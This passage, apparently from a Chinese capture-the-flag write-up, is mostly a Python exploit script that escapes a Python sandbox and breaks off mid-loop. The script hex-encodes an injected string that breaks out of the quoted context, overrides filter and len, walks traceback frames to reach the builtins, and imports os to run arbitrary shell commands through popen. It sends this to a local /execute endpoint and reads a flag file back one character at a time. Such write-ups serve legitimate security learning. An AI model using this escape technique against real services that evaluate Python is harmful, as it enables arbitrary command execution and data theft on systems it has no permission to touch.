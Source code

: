 ![image-20250508121903842](assets/image-20250508121903842.png)

最后发一下解题用的python脚本，basecommand那块放的就是要执行的命令，可以逐步回显出执行的结果。

```
import os

import requests

def string_to_hex(s):
    hex_string = ''
    for char in s:
        ascii_value = ord(char)
        hex_char = r'\x{:02x}'.format(ascii_value)
        hex_string += hex_char
    return hex_string


basecommand = "cat /m1n1FL@G | base64"
full_content = ""
index = 0

while True:
    string = '''\")
filter=lambda a,b: [1,2,3]
len = lambda x: 0
try:
    raise Exception("exploit")
except Exception as e:
    tb = e.__traceback__.tb_frame      
    globals= tb.f_back.f_back.f_globals
    os = globals["__builtins__"].get('__import__')('os')
    print(os.popen("%s | tr '\\n' '|'  |cut -c %s").read())
    #''' %(basecommand, index + 1)
    hex_string = string_to_hex(string)
    text = requests.post("http://127.0.0.1:56135/execute", data={"text": hex_string}).text.strip()
    if "Error" in text:
        print("Error")
    if len(text) > 0 and text != "Error":
```